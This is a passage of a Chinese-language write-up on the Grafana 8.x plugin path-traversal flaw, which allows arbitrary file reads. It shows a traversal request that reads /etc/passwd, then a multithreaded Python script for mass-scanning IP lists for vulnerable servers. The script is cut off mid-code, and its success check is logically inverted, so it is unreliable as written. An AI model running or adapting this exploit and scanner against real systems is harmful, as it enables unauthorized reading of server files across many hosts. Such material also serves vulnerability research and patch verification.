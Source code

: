 插件路径 public/app/plugins/panel
![image.png](./assets/1660286865358-e1664f8a-a16d-4e32-8610-8e1403ed7921.png)


# 0X05 漏洞复现
随意抓取一个数据包修改请求头为
```javascript
/public/plugins/welcome/../../../../../../../../../etc/passwd
```
![image-20211208093559618.png](./assets/1660286218645-b63be7e9-6bef-4653-ac66-562fc5611ec2.png)


# 0X05 POC
Grafana8.x_check.py
```javascript
# -*- encoding: utf-8 -*-
# Time : 2021/12/07 23:05:31
# Author: crow
# Grafana plugins 任意文件读取批量检测脚本
# poc参考：https://github.com/ScorpionsMAX/Grafana-loophole


import requests
import threading
from queue import Queue


class Check_ips(threading.Thread):
    def __init__(self, queue, file_path):
        threading.Thread.__init__(self)
        self._queue = queue
        self._file_path = file_path
        

    def run(self):
        while not self._queue.empty():
            Ip = self._queue.get()
            file_path_ = self._file_path
            try:
                self.check(Ip, file_path_)
            except Exception as e:
                # print(e)
                pass

    def check(self, ip, file_path_):
        f = open("./paload.txt")
        print('正在测试ip:',ip)
        for line in f:
            url = "http://"+ ip +"/public/plugins/"+str.rstrip(line)+"/../../../../../../../../../../../etc/passwd"
            headers = {
                "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
            }
            req = requests.post(url, headers=headers,timeout=(3,7),allow_redirects=False)
            a=req.text
            # print('当前a的值:',a)
            str1='root'
            if a in str1:
                print('确认存在'+str.rstrip(line)+'路径,并存在漏洞!')
                print(url)
                with open('Grafana 8.x_vuln.txt', 'a+') as ff:
```